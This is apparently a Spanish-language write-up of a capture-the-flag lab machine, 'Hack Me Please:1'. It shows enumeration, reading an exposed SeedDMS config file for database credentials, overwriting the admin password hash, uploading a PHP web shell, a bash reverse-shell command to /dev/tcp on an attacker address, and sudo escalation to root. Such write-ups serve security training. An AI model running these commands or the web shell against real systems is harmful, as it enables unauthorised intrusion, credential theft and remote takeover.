# Hack Me Please:1

192.168.1.213



Focal
```bash
whatweb http://192.168.1.213
```

Obtenemos una versión batante antigua de JQuery -> 1.11.2 -> Buscando se reportan bastantes XSS y prototype pollution -> no sigo por aquí de momento

En */main.js* encontramos en la lína 66 un posible endpoint



`/seeddms51x/seeddms-5.1.22/`

Encontramos un portal de login de un tal SeedDMS



Es un DMS open source

Al ser opensource podemos buscar su disposición de contenidos en github para intentar listar un archivo peligroso
- Vemos que existe un directorio /config en la disposición de paquetes que conteine un .htcacces con esta info



Potencial peligro en settings.xml
Con la url `http://192.168.1.213/seeddms51x/conf/settings.xml` vemos el archivo



Encontramos credenciales para *mysql*  **seeddms:seeddms**

Al intentar conectarnos nos da un problema de
`ERROR* 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain`
Buscando encuentro la forma de que el servidor no pida el SSL
`{shell ico`
**mysql**

Encontramos credenciales



**saket:Saket@#$1337**

Buscamos en otra tabla de tblUsers en mysql
```sql
Select id,login,pwd from tblUsers;
```



**admin:f9ef2c539bad8a6d2f3432b6d49ab51a**
**guest:**

```bash
hash-identifier f9ef2c539bad8a6d2f3432b6d49ab51a
```

MD5

```bash
echo -n f9ef2c539bad8a6d2f3432b6d49ab51a | wc -c
```

32 -> probable que sea MD5

No ha habido éxito

Intentamos actualizar la contraseña del registro en *mysql*
Primero nos creamos una contraseña en MD5
```bash
echo -n "pass123" | md5sum
```

Es importante hacer el echo sin el salto de linea (-n) porque si no cambia el hash
- *32250170a0dca92d53ec9624f336ca24*
Actualizamos la contraseña
```sql
update tblUsers set pwd='32250170a0dca92d53ec9624f336ca24' where login='admin'
```



Conseguimos acceder como admin



Una vez dentro podremos buscar algun exploit que requiera de credenciales para ganar acceso a la máquina
```bash
searchsploit -x php/webapps/47022.txt | cat -l javascript
```



1) En Add Document añadimos un documento con el código de la revshell
2) Chequeamos el id del documento en la URL



- 4
3) Con la URL
`http://192.168.1.213/seeddms51x/data/1048576/4/1.php?cmd=cat+/etc/passwd`



4) Revshell
`http://192.168.1.213/seeddms51x/data/1048576/4/1.php?cmd=bash+-c+"bash+-i+>%26/dev/tcp/192.168.1.249/443+0>%261"`
**www-data**

## Escalada

Podemos escalar al usuario saket con la contraseña de antes **Saket@#$1337**
```bash
su saket
```

**saket**

```bash
sudo -l
```

*(ALL : ALL) ALL*
```bash
sudo su
```

**root**
